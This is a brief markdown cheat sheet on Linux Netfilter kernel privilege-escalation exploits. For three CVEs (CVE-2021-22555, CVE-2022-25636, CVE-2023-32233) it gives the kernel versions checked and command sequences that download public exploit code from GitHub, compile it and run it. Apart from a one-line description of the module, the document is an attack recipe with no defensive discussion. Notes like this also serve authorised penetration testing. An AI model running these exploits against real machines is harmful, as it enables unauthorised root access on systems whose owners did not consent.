 # Netfilter

This kernel module has three main functions:

Packet defragmentation
Connection tracking
Network address translation (NAT)

## CVE-2021-22555

uname -r

5.10.5-051005-generic

wget https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
gcc -m32 -static exploit.c -o exploit
./exploit

## CVE-2022-25636

uname -r

5.13.0-051300-generic

git clone https://github.com/Bonfee/CVE-2022-25636.git
cd CVE-2022-25636
make
./exploit

## CVE-2023-32233

git clone https://github.com/Liuk3r/CVE-2023-32233
cd CVE-2023-32233
gcc -Wall -o exploit exploit.c -lmnl -lnftnl

./exploit

